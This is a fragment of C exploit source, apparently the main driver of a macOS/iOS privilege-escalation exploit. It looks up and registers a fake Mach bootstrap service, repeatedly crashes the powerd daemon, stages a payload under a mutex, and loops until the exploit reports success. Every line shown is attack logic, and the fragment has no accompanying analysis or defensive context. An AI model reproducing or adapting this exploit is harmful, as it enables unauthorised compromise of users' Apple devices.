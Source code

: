 ```c
    task_get_bootstrap_port(mach_task_self(), &bs);
    int kr = bootstrap_look_up(bs, FAKE_SERVICE_NAME, &p);
    CHECK_MACH_ERR(kr,"bootstrap_look_up()");
    printf("yes 0x%x\n",p);
    ping(p);
    exit(0);
    do_prepare_payload();
    exit(0);
#endif

    pthread_create(&svc,NULL,register_fake_service,NULL);
    do {
        do_crash_powerd();
        do_prepare_data();

        while(!strt_exp){}
        printf("[+] Exploit started \n");

        pthread_mutex_lock(&mutex);
        do_prepare_payload();
        pthread_mutex_unlock(&mutex);

        do_powend();

    } while(!check_uexploit_success());
    exit(0);
}
```
